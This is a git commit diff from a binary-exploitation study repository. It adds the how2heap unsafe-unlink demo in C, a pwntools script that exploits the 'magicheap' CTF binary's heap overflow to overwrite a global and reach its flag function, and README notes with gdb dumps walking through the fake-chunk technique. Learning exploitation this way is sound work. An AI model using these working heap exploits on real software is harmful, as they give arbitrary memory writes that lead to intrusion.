

Add second example for unsorted bin

diff --git a/nightmare_binary_reverse_engineer/08_heap/01_exploits_examples/06_unsorted_bin/shellphish_unsafe_unlink.c b/nightmare_binary_reverse_engineer/08_heap/01_exploits_examples/06_unsorted_bin/shellphish_unsafe_unlink.c
@@ -1,0 +1,76 @@
+// from https://github.com/shellphish/how2heap/blob/master/glibc_2.31/unsafe_unlink.c
+
+#include <assert.h>
+#include <stdint.h>
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+
+uint64_t *chunk0_ptr;
+
+int main()
+{
+	setbuf(stdout, NULL);
+	printf("Welcome to unsafe unlink 2.0!\n");
+	printf("Tested in Ubuntu 20.04 64bit.\n");
+	printf(
+		"This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
+	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");
+
+	int malloc_size = 0x420; // we want to be big enough not to use tcache or fastbin
+	int header_size = 2;
+
+	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory "
+		   "write.\n\n");
+
+	chunk0_ptr = (uint64_t *)malloc(malloc_size);			// chunk0
+	uint64_t *chunk1_ptr = (uint64_t *)malloc(malloc_size); // chunk1
+	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
+	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);
+
+	printf("We create a fake chunk inside chunk0.\n");
+	printf("We setup the size of our fake chunk so that we can bypass the check introduced in "
+		   "https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d6db68e66dff25d12c3bc5641b60cbd7fb6ab44f\n");
+	chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;
+	printf(
+		"We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
+	chunk0_ptr[2] = (uint64_t)&chunk0_ptr - (sizeof(uint64_t) * 3);
+	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = "
+		   "P.\n");
+	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
+	chunk0_ptr[3] = (uint64_t)&chunk0_ptr - (sizeof(uint64_t) * 2);
+	printf("Fake chunk fd: %p\n", (void *)chunk0_ptr[2]);
+	printf("Fake chunk bk: %p\n\n", (void *)chunk0_ptr[3]);
+
+	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
+	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
+	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 "
+		   "starts where we placed our fake chunk.\n");
+	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the "
+		   "chunk accordingly\n");
+	chunk1_hdr[0] = malloc_size;
+	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x430, however this is its new "
+		   "value: %p\n",
+		   (void *)chunk1_hdr[0]);
+	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
+	chunk1_hdr[1] &= ~1;
+
+	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
+	printf("You can find the source of the unlink macro at "
+		   "https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/"
+		   "malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
+	free(chunk1_ptr);
+
+	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
+	char victim_string[8];
+	strcpy(victim_string, "Hello!~");
+	chunk0_ptr[3] = (uint64_t)victim_string;
+
+	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
+	printf("Original value: %s\n", victim_string);
+	chunk0_ptr[0] = 0x4141414142424242LL;
+	printf("New Value: %s\n", victim_string);
+
+	// sanity check
+	assert(*(long *)victim_string == 0x4141414142424242L);
+}

diff --git a/nightmare_binary_reverse_engineer/08_heap/06_unsortedbin/02_magicheap/magicheap_pwn.py b/nightmare_binary_reverse_engineer/08_heap/06_unsortedbin/02_magicheap/magicheap_pwn.py
@@ -1,0 +1,70 @@
+import pwn as p
+
+target = p.process('./magicheap')
+# p.gdb.attach(target)
+
+
+def b(s: str) -> bytes:
+    return s.encode('utf8')
+
+
+def s(b: bytes) -> str:
+    return b.decode('utf8')
+
+
+def prints(b: bytes):
+    print(s(b))
+
+
+def insert(payload: bytes):
+    prints(target.recvuntil(b'Your choice :'))
+    target.sendline(b'1')
+    prints(target.recvuntil(b'Size of Heap : '))
+    target.sendline(b(str(len(payload))))
+    prints(target.recvuntil(b'Content of heap:'))
+    target.send(payload)
+
+
+def edit(index: int, payload: bytes):
+    prints(target.recvuntil(b'Your choice :'))
+    target.sendline(b'2')
+    prints(target.recvuntil(b'Index :'))
+    target.sendline(b(str(index)))
+    prints(target.recvuntil(b'Size of Heap : '))
+    target.sendline(b(str(len(payload))))
+    prints(target.recvuntil(b'Content of heap : '))
+    target.send(payload)
+
+
+def delete(index: int):
+    prints(target.recvuntil(b'Your choice :'))
+    target.sendline(b'3')
+    prints(target.recvuntil(b'Index :'))
+    target.sendline(b(str(index)))
+
+
+insert(b'a'*0x420)
+insert(b'b'*0x420)
+
+chunk_list_ptr = 0x6020e0
+
+fake_chunk = p.p64(0x0) + p.p64(0x421)  # headers of fake chunk
+fake_chunk += p.p64(chunk_list_ptr - 0x18) + p.p64(chunk_list_ptr - 0x10)
+fake_chunk += b'\x00' * 0x400  # padding
+fake_chunk += p.p64(0x420) + p.p64(0x430)
+
+edit(0, fake_chunk)
+
+delete(1)
+
+# at this point the first entry of chunk_list is pointing at 0x6020c8
+magic = 0x006020c0
+edit(0, p.p64(0x0)*3 + p.p64(magic))
+
+# we are now pointing at magic
+edit(0, p.p64(0xdeadbeef))
+
+# send secret option to call cat
+target.sendline(b'4869')
+
+target.interactive()

diff --git a/nightmare_binary_reverse_engineer/08_heap/06_unsortedbin/README.md b/nightmare_binary_reverse_engineer/08_heap/06_unsortedbin/README.md
@@ -66,3 +66,31 @@ I also looked at [another answer](https://1ce0ear.github.io/2017/10/16/Zerostora
 
 # Magicheap
 
+```bash
+❯ file magicheap
+magicheap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7dbbc580bc50d383c3d8964b8fa0e56dbda3b5f1, not stripped
+❯ checksec magicheap
+    Arch:     amd64-64-little
+    RELRO:    Partial RELRO
+    Stack:    Canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x400000)
+```
+
+As most heap exercises, the executable seems to provide a way to malloc, edit a heap chunk and delete it.
+
+With ghidra, we can see a `l33t` method that will cat the flag at `00400c23`. This method is called if the following condition is not met: `if (magic < 0x1306) {`. Maybe we'll use unsorted bin exploit to write main_arena's address into this `magic` var (which is located at `0x006020c0`) ?
+
+Reading `create_heap`, the variable holding the total number of chunks seems to be in the local scope, so we might overwrite the same entry in the list of pointer over and over. Oh we're in a while loop so as long as we're allocating in a row we can create multiple chunks (up to 8). (the executable seems to work just fine, so the scope issue might be my misunderstanding)
+
+The `edit_heap` one will make sure that the desired chunk is allocated before printing it. Of course we can overflow the heap chunk we are editing, there is no size check ^^.
+
+The `delete_heap` option will make sure that the chunk is allocated before freeing it. It is also setting the entry in the list of heap at NULL afterward.
+
+The list of heap will be located at `0x6020e0`, which is quite near `magic` which is at `0x006020c0`.
+
+So if I'm not mistaken, I'll have to trigger an unsorted bin exploit in order to write an address at `magic`'s location. To do that I'll probably need a chunk in `unsorted bin` and a way to write to it. Hopefully I can overflow heap entries, so it might be easy.
+
+For this exploit I decided to try an unlink one, which has an example by [shellphish](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/unsafe_unlink.c). The inner working is quite similar to what we've seen before, i.e. we forge a fake chunk that upon free will give as a write access anywhere we want.
+
+The "trick" being how to play along pointer checks made by libc. In order to do this, we need to be able to tell where our pointer are stored (here at `0x6020e0`) so that we can forge a chunk that seems to be pointing to another "official" chunk. 

diff --git a/nightmare_binary_reverse_engineer/08_heap/01_exploits_examples/06_unsorted_bin/README.md b/nightmare_binary_reverse_engineer/08_heap/01_exploits_examples/06_unsorted_bin/README.md
@@ -7,3 +7,36 @@ Quite similarily to fastbin attack, this exploit is based on the behavior of mem
 In order to do so, we have to first allocate a chunk big enough so that once freed it would go to unsorted bin. Once there it will have the address to main_arena written in the first two words. If we change (with an UAF ? overwrite from a previous memory chunk ?) the second address (bk pointer) to anything else, we will then write at that address upon allocating that chunk.
 
 At the destination will be written an address to main_arena, so the destination might be something we can print (so we can leak main_arena's address).
+
+# shellphish unsafe unlink
+
+This one explains how to create a fake chunk within unsorted bin. It supposes we know the location of the pointers, and that we have an overflow bug.
+
+Preparation:
+```bash
+0x555555559290:	0x0000000000000000	0x0000000000000431  <- actual chunk header>
+0x5555555592a0:	0x0000000000000000	0x0000000000000421  <- fake chunk header>
+0x5555555592b0:	0x0000555555558008	0x0000555555558010  <- fake fd and bk pointers>
+```
+The fake pointers are here to pass sanity checks, so we can pass `(P->fd->bk != P || P->bk->fd != P) == False` test.
+```bash
+gef➤  x/6gx 0x0000555555558008
+0x555555558008:	0x0000555555558008	0x00007ffff7fa96a0
+0x555555558018:	0x0000000000000000	0x00005555555592a0  <- second value is the address of our actual chunk >
+0x555555558028:	0x0000000000000000	0x0000000000000000
+```
+So from the fake chunk's perspective, P->fd is `0x0000555555558008`, and `0x0000555555558008`->bk is `0x00005555555592a0`. Similar reasonning for the other condition.
+
+We will then need to overwrite header information of the following chunk, so that it will point to our fake chunk instead of the original chunk:
+```bash
+gef➤  x/10gx 0x00005555555596c0
+0x5555555596c0:	0x0000000000000420	0x0000000000000430  <- header values of following chunk>
+0x5555555596d0:	0x0000000000000000	0x0000000000000000
+```
+
+And after the free:
+```bash
+0x555555558020 <chunk0_ptr>:	0x0000555555558008	0x0000000000000000
+0x555555558030:	0x0000000000000000	0x0000000000000000
+```
+So now chunk0_ptr is pointing at a location just above itself. So we can edit where chunk0_ptr is pointing at !
